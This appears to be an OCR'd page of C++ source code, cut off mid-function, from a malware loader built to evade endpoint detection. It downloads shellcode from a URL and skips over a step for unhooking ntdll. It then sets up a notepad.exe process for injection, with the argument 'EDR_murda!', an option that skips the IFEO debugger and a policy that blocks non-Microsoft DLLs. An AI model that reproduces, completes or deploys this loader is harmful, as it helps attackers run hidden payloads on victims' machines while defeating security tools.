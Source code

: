 ```
// download shellcode
std::vector<BYTE> shellcode = DownloadShellcode(url, path);
```

The codebase would be as follows.

```
int main(int argc, char* argv[])
{
	
	/* Blindside technique for unhooked ntdll */
	[snip]

	/* Process Injection */
	// Path to the image file from which the process will be created
	UNICODE_STRING NtImagePath, Params, ImagePath;
	RtlInitUnicodeString(&ImagePath, (PWSTR)L"C:\\Windows\\System32\\notepad.exe");

	RtlInitUnicodeString(&NtImagePath, (PWSTR)L"\\??\\C:\\Windows\\System32\\notepad.exe");
	RtlInitUnicodeString(&Params, (PWSTR)L"\"C:\\WINDOWS\\SYSTEM32\\notepad.exe\" /i EDR_murda!");
	// Create the process parameters
	PRTL_USER_PROCESS_PARAMETERS ProcessParameters = NULL;
	RtlCreateProcessParametersEx(&ProcessParameters, &ImagePath, NULL, NULL, &Params, NULL, NULL, NULL, NULL, NULL, RTL_USER_PROCESS_PARAMETERS_NORMALIZED);

	// Initialize the PS_CREATE_INFO structure
	PS_CREATE_INFO CreateInfo = { 0 };
	CreateInfo.Size = sizeof(CreateInfo);
	CreateInfo.State = PsCreateInitialState;

	//Skip Image File Execution Options debugger
	CreateInfo.InitState.u1.InitFlags = PsSkipIFEODebugger;

	OBJECT_ATTRIBUTES objAttr = { sizeof(OBJECT_ATTRIBUTES)};
	PPS_STD_HANDLE_INFO stdHandleInfo = (PPS_STD_HANDLE_INFO)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_STD_HANDLE_INFO));
	PCLIENT_ID clientId = (PCLIENT_ID)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_ATTRIBUTE));
	PSECTION_IMAGE_INFORMATION SecImgInfo = (PSECTION_IMAGE_INFORMATION)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(SECTION_IMAGE_INFORMATION));
	PPS_ATTRIBUTE_LIST AttributeList = (PS_ATTRIBUTE_LIST*)RtlAllocateHeap(RtlProcessHeap(), HEAP_ZERO_MEMORY, sizeof(PS_ATTRIBUTE_LIST));

	// Create necessary attributes
	AttributeList->TotalLength = sizeof(PS_ATTRIBUTE_LIST);
	AttributeList->Attributes[0].Attribute = PS_ATTRIBUTE_CLIENT_ID;
	AttributeList->Attributes[0].Size = sizeof(CLIENT_ID);
	AttributeList->Attributes[0].ValuePtr = clientId;

	AttributeList->Attributes[1].Attribute = PS_ATTRIBUTE_IMAGE_INFO;
	AttributeList->Attributes[1].Size = sizeof(SECTION_IMAGE_INFORMATION);
	AttributeList->Attributes[1].ValuePtr = SecImgInfo;

	AttributeList->Attributes[2].Attribute = PS_ATTRIBUTE_IMAGE_NAME;
	AttributeList->Attributes[2].Size = NtImagePath.Length;
	AttributeList->Attributes[2].ValuePtr = NtImagePath.Buffer;

	AttributeList->Attributes[3].Attribute = PS_ATTRIBUTE_STD_HANDLE_INFO;
	AttributeList->Attributes[3].Size = sizeof(PS_STD_HANDLE_INFO);
	AttributeList->Attributes[3].ValuePtr = stdHandleInfo;

	DWORD64 policy = PROCESS_CREATION_MITIGATION_POLICY_BLOCK_NON_MICROSOFT_BINARIES_ALWAYS_ON;

	// Add process mitigation attribute
```